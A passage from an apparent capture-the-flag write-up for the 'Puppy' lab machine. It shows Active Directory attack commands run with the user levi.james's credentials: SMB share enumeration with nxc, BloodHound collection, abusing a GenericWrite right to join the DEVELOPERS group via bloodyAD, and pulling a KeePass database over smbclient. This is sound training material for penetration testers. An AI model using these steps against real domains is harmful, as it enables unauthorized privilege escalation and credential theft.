 With valid LDAP credentials confirmed, the next step is to enumerate accessible SMB shares, since these often store sensitive files in AD environments.

```
nxc smb puppy.htb -u  levi.james -p 'KingofAkron2025!' --shares
```
```
SMB         10.10.11.70     445    DC               Share           Permissions     Remark
SMB         10.10.11.70     445    DC               -----           -----------     ------
SMB         10.10.11.70     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.70     445    DC               C$                              Default share
SMB         10.10.11.70     445    DC               DEV                             DEV-SHARE for PUPPY-DEVS
SMB         10.10.11.70     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.70     445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.70     445    DC               SYSVOL          READ            Logon server share 
```
We see an interesting DEV share but it is inaccessible by the current user right now.

The next logical step is to run bloodhound. First, we need to ensure that `bloodhound-cli` has set up the containers and bloodhound is running.

To start the containers (you may need to specify the full path of bloodhound-cli),
```
sudo bloodhound-cli up
```
And collect the data
```
bloodhound-python -d puppy.htb -u levi.james -p 'KingofAkron2025!' -ns 10.10.11.70 -c All --zip
```

Then we go to http://127.0.0.1:8080 and upload the zip obtained through bloodhound-python.

![Bloodhound-GUI](./BH-GUI.png)

*Note: We will be performing a similar process multiple times which hereon, will be referred to as collecting data from bloodhound.* 

Once the file is ingested, we go to the explore tab and search for levi.james, select it, right click on the node and set it as owned.

![Bloodhound-AddOwned](./BH-Owned.png)

Then, we click on the Cypher tab and select queries to find interesting paths and results.

![Bloodhound-Levi.James](./BH-Levi.png)

Here, we find that LEVI.JAMES is a member of HR group and has genericWrite right on DEVELOPERS group. We earlier had found a share for Puppy-Devs. So, we add LEVI.JAMES to DEVELOPERS using *bloodyAD* and try using `smbclient` to read the share.

To add LEVI.JAMES to DEVELOPERS
```
bloodyAD -d puppy.htb -u levi.james -p 'KingofAkron2025!' --dc-ip 10.10.11.70 add groupMember DEVELOPERS levi.james
```
And then we connect using `smbclient` and download the `recovery.kdbx` file.
```
smbclient //puppy.htb/DEV  -U levi.james --password='KingofAkron2025!'
```
![download recovery.kdbx](./smb.png)
